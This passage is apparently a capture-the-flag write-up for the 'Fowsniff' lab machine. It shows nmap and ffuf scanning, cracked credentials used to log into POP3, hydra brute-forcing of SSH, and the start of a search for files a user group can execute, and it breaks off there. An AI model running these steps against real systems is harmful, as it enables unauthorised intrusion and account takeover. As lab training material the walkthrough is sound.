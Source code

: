 # Fowsniff CTF

I cannot ping it but I found a website there so I started `nmap` scan without ping.
```
nmap -Pn fowsniff.thm
```

<img src="./imgs/fowsniff.thm.png" alt="fowsniff.thm"><br>

```
ffuf -w /usr/share/wordlists/dirb/big.txt -u http://fowsniff.thm/FUZZ -c -t 200
```
<img src="./imgs/ffuf_fowsniff.png"><br>

<hr>

Nmap found a couple of open ports. Let's explore them.
```
nmap -sC -sV -Pn -p22,80,110,143 fowsniff.thm
```
<hr>

I google the fowsniff and found their twitter, where I found the password dump, I put the hashes into `hash cracker` and got this.<br>
<img src="./imgs/hash_cracker.png">
```
[+] 10.10.128.253:110     - 10.10.128.253:110 - Success: 'seina:scoobydoo2' '+OK Logged in.'
```

### pop3
```
telnet fowsniff.thm 110
USER seina
PASS scoobydoo2

retr 1
retr 2
```
<img src="./imgs/ssh_pass.png">

`S1ck3nBluff+secureshell`
<hr>

```
hydra -L users.txt -P passwords.txt ssh://fowsniff.thm -t 20
```

<img src="./imgs/hydra.png">

I connected via `ssh` and did:<br>
```
groups

# Found myself in the users group

# to find which files the group can execute
find / -type f -executable -group users 2>/dev/null